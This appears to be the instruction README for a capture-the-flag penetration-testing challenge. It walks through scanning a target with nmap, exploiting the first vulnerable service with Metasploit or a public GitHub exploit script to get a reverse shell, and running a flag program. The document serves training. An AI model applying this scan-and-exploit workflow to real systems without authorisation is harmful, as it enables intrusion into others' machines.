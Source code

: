 Use nmap to scan for open ports of the provided host, identify applications running on each port, use Metaploit or a exploit script you find online to take advantage of the first vulnerability.

#### Getting setup
Here are instructions on how to get your pen-tester environment setup:

#### Instructions for Completing the Challenge
- Run nmap
- Run metasploit or a different exploit script to take advantage of a vulnerability in the first identified app
- Execute commands remotely
- Find the flag program in the current directory and use it to sign the challenge salt: `./flag <SALT>`

#### Nmap
Install nmap.

 
For RedHat/CentOS:

`sudo yum install nmap`

For Debian/Ubuntu:

`apt-get install nmap`


Once nmap is installed you can scan the target host with `nmap <target_host> -Pn -vv`

Other useful parameters are listed below:

* `-p` {PORT_NUMBERS}: Scan ports of the target. It can be a single port number or
a range of ports. Examples: `-p22,23,80` -> scan 22,23 and 80 , `-p8000-9000` -> scan a port range, `-p-` -> scan all the ports
* `-A`: Determine service/version and OS info.

For a detailed list of all parameters availible please refer to the [Nmap Reference Guide](https://nmap.org/book/man.html).

#### Metasploit
If you have Docker installed you can simply run the metasploit container image. Metasploit should be installed on a EC2 that is internet accessible to allow for the meterpreter to run. 

Here's how to do it:

Pull metasploit docker image from DockerHub

`docker pull metasploitframework/metasploit-framework`

Run metasploit container, forward port 4444 (needed for reverse shell), make sure those ports are open in security groups etc in your metasploit machine

`docker run -it -p 4444-4450:4444-4450 metasploitframework/metasploit-framework`

Search for the exploit you'd like to use based on nmap results:

`search <name of the application you are looking to exploit>`

Select the exploit you are going to use from the search results:

`use <path/to/the/exploit>`

Set the host and port for the attacker's and victim's machine

`set RHOSTS <host>`

`set RPORT <port>`

`set LHOST <remote IP of Metasploit machine>`

`set LPORT 4444`

Run the exploit!

`run`

This may fail in some cases, if it fails once reset the LHOST and run again

`set LHOST <remote IP of Metasploit machine>`
`run`

You should be able to get shell at this point and run commands in the container. Can you get the flag? Good luck!

If you want to learn more about Metasploit, please check out this free course from Offensive Security: [Metasploit Unleashed](https://www.offensive-security.com/metasploit-unleashed/)

#### Exploit Script

Before being ported to Metasploit for easy usage, exploits are usually released in the wild, in an ad-hoc way. Hackers can also take advantage of those to carry out their attacks. 

If the Metasploit option didn't work or you'd like to try another way of exploiting the same vulnerability, here it is:

In this scenario we are going to use a public exploit available on GitHub:

First, you need to clone the repository into your attacker's machine:

`git clone <exploit_github>`

Go to the project folder and install the library dependencies:

`cd <exploit_github>`

`sudo gem install highline`

You should be able to excute the exploit like so:

`./exploit.rb {VICTIM_IP_OR_URL:VICTIM_PORT}`

